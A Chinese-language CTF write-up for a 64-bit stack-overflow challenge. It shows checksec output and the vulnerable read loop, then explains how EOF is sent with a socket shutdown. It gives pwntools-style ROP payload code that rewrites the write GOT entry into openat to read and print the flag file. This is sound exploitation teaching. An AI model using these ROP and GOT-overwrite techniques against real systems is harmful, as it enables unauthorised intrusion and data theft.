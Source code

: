 
## checksec

```Assembly
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Vuln

明显的栈溢出。<br>
但是问题是
```C
while ( read(0, &nptr, 0x10uLL) > 0 )
{
  v7 = atoi(&nptr);
  if ( v7 <= 15 )
    v7 = 16;
  v6 = read(0, buf, v7);
  buf[v6] = 0;
  printf("%s", buf);
}
return 0;
```
想要造成溢出，必须退出。但是退出就意味要发eof<br>
EOF是一个信号，而不是什么字符，查了一下，是要断开write的连接，对应socket的shutdown<br>
思考很久也没相到一次就溢出的方法。


## Exp

参考了http://h-noson.hatenablog.jp/entry/2017/05/22/121031<br>

### openat

方法很巧妙。<br>
程序再退出的时候<br>
```Assembly
.text:000000000040082E mov     eax, 0
.text:0000000000400833 leave
.text:0000000000400834 retn
```
观察寄存器的值可以发现
```Assembly
rdx 0000000000000010    --> arg3
rsi 00007FFEDF6A5BF0    --> arg2
rdi 0000000000000000    --> arg1
```
rsi这个时候指向栈上的某数据，调试可以发现，就是第一次read指向的地址，也就是读取size的那里(因为一定是再第一个read执行完了之后退出)<br>
再看看openat
```C
int openat(int dirfd, const char *pathname, int flags);
```
pathname就直接可以是退出之前输入的字符串了
```Python
msend_str(len(payload), payload)
time.sleep(0.05)
io.send("flag")
io.shutdown()
```
之后就发现
```
rsi --> 00007FFEDF6A5BF0  0000000067616C66  flag....
```
就下来，只要利用openat读取，然后输出。

### change func

got表显然没有openat，但是可以通过函数间的偏移<br>

```Python
# change write to openat
payload = 'a'*(0x30) + p64(0x400791)
payload += p64(pop_rdi) + p64(elf.got['write'])
payload += p64(pop_rax) + p64(0x40)
payload += p64(add_bvrdi)       # ?[write] += 0x40
payload += p64(pop_rdi) + p64(elf.got['write']+1)
payload += p64(pop_rax) + p64(0xff)
payload += p64(add_bvrdi)       # ?[write+1] += 0xff
```
每次改动一个字节即可，然后调用。<br>
> 注意的是应该先改动，调用完openat，然后再恢复write

## result

之后就简单了，读取到某个缓冲区，然后输出。<br>
python端要做的只有读取字符串了。<br>
```python
# read(3, bss, 0x100)
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi_r15) + p64(bss_addr) + 'f'*0x08
payload += p64(pop_rdx) + p64(0x100)
payload += p64(elf.plt['read'])
# write(1, bss, 0x100)
payload += p64(pop_rdi) + p64(1)
payload += p64(elf.plt['write'])
```
